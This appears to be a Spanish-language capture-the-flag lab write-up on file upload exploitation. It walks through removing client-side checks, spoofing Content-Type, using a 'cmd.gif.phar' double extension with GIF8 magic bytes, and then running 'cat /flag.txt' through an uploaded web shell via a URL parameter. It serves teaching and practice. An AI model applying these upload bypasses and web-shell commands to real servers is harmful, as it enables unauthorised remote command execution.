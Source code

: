 # Laboratorio: Upload Exploitation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Validations/01-Web.PNG" width=400>
</p>

---

2. Primero, eliminamos las validaciones en el `Lado Del Cliente`

```
onchange="checkFile(this)"
accept=".jpg,.jpeg,.png"
```

---

3. Interceptamos la petición con **Burp Suite**

<p align="center">
    <img src="./assets/Type_Filters/01-Burpsuite.PNG" width=400>
</p>

* Cambiaremos el `Content-Type` por **image/jpg** y haremos un **ataque de doble extensión** para cambiar el nombre del archivo por `cmd.gif.phar`

* Modificaremos los **Magic Numbers** del archivo y colocaremos `GIF8;`

---

4. Si tratamos de **subir el archivo** vemos que lo logramos, después de esto, podemos ejecutar comandos y leer la **flag** 🏴

* **URL:** `http://[IP]/profile_images/cmd.gif.phar?cmd=cat%20/flag.txt`

**Output**
`HTB{m461c4l_c0n73n7_3xpl0174710n}`